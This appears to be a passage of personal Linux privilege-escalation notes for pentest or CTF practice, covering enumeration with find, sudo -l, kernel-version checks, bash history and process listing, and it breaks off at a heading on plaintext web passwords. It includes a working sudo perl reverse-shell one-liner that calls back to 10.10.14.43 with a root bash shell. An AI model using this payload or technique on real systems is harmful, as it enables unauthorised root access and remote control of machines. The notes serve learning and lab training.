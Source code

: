 #### Finding Writable and executable folders

```
find / ( -perm -o w -perm -o x ) -type d 2>/dev/null
```

#### Find commands that allows you to run as root with no password&#x20;

```
sudo -l
```

You'll see the similar result as below. As you can see, User shelly can use /usr/bin.perl as root with no password.

![](broken-reference)

![](file:///C:/Users/GraceLee/AppData/Local/Temp/ct\_tmp/1.png)

e.g) If you are allowed to use perl command as root, you can get a revese shell stright

```
sudo perl -e 'use Socket;$i="10.10.14.43";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

If this doesn't give you any hints

Check the kernel versions of the victim machines

```
uname -ar 
cat /proc/version 
cat /etc/issue 
cat /etc/*-release 
cat /etc/lsb-release # Debian based 
cat /etc/redhat-release # Redhat based
```

Try googling the kernel version and PE exploits to try out.

#### Check the bash histroy

```
cat .bash_history
```

#### Check the process it's running

```
ps aux | grep $service
```

### Finding Plaintext Passwords in web server

#### Plaintext Password in /var/www/html/\*.php
